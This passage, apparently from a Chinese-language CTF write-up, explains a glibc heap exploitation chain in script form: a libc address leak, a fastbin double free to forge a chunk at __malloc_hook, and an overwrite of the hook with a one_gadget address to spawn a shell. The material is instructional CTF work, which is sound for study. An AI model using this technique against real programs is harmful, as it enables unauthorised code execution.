 ```
0x55ca73bf05f0:	0x0000000000000000	0x0000000000020a11
0x55ca73bf0600:	0x0000000000000000	0x0000000000000000
```
其中有个点就是泄漏的libc地址怎么找到偏移的呢？
```
# libc leak
show(1)
s.recvuntil('content: ')
libc = u64(s.recv(6) + "\x00" * 2) - l.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc))
```



### getshell

利用前面两个指针指向同一个地址的情况，把`malloc_hook`的地址假装成上一个空闲块的地址来让他分配`malloc_hook`来给我们写，也就是构造一个假的fastbins来写malloc_hook为getshell的地址，下次调用malloc(calloc)的时候就可以直接getshell了。

其实malloc和calloc的区别只有calloc分配空间会默认把分配的堆块清零。

```
知识点：malloc_hook
参考地址：https://0x48.pw/2017/08/01/0x36/

在arena的上面，有个malloc_hook，当这个地址的值不为0时，我们执行malloc将会先跳到malloc_hook的地址上执行指令
```

下面介绍一下整个构造写malloc_hook的过程：

首先要明确，当`malloc_hook`这个地址的值不为0时，我们执行`malloc`将会先跳到`malloc_hook`的地址上执行指令，所以我们才需要写malloc_hook为getshell的地址，这是我们的目的，然后这道题只有分配内存的时候才能写内容，所以我们考虑伪造一个假的空闲地址为`malloc_hook`的地址，从而让我们下次分配的时候有写改地址的能力就ok了。

首先是这部分的脚本
```
free(2)
alloc(0x80, 'A' * 0x80)#2
alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x71) + p64(0) + p64(0))#3

free(1)
free(3)
#double free
hook = libc + l.symbols['__malloc_hook'] - 0x13
oneshot = libc + 0x4526a
#oneshot = libc + 0x4647c  #local
alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x70) + p64(hook) + p64(0))#1

alloc(0x60,'A' * 0x60)#3
alloc(0x60,'A' * 0x3 + p64(oneshot) + "\n")#5
```
然后我们还是一步一步来详细记录一下：
```
free(2)
alloc(0x80, 'A' * 0x80)#2
alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x71) + p64(0) + p64(0))#3
```
首先这个还是一个简单的构造吧，主要`p64(0) + p64(0x71)`是为了后面free的时候构造的大小，而且free的同时后面刚好0x70大小的表示上一块是否inuse的标志位要是`1`，否则会free出错，因为一个已经空闲的块不能再次被free，所以这个构造问题上还是很重要的，需要非常精准的计算和构造。
上一个图，这是这一步执行之后的图(这个跟上面地址不一样是因为不是同一次执行的)：

